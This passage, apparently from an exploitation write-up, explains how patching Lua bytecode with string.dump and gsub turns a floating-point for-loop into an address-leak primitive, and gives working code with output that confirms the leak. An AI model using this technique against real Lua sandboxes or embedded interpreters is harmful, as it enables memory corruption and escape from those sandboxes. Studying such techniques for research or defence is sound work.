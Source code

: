 Essentially, this code is doing the following:

- If the loop is an integer loop (e.g. the TValue step has an integer type),
  the function is computing the updates and checks inline (but we don't really
  care as it's not our case).
- If instead (as in our case) the step TValue is not an integer, execution reaches
  the *floatforloop* function, which takes care of updating the index and
  checking the limit.
  - The function increments the index and **checks
  if it still smaller than the limit**. In that case, the
  index will be updated and the for loop continues -- this is what we want!

We need to make sure that, once incremented with the `x` step (which, remember,
is the address of the target TValue), the index is not greater than the limit
(the number 1000000000000, in our code). Most likely, the problem here is that
the leaked address, interpreted as an IEEE 754 double, is bigger than the constant
used, so the execution never reaches the `return i` that would return the leak.

We can test this assumption by slightly modifying the code to add a return value
after the for-loop ends:

```lua
# Code
asnum = load(string.dump(function(x)
    for i = 0, 1000000000000, x do return i end
    return -1 <--- IF x > 1000000000000, EXECUTION WILL GO HERE 
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

foo = function() print(1) end
print("foo:", foo)

print("leak:",asnum(foo))

# Output
foo:	LClosure: 0x10df18
leak:	-1 <--- OUR GUESS IS CONFIRMED
```

There's a simple solution to this problem: **by using x as both the step and
the limit, we are sure that the loop will continue to the return statement.**

The leak experiment thus becomes:

```lua
# Code
asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

foo = function() print(1) end
print("foo:", foo)

print("leak:",asnum(foo))

# Output
foo:	LClosure: 0x10a0b0
leak:	2.3107345851353e-308
```
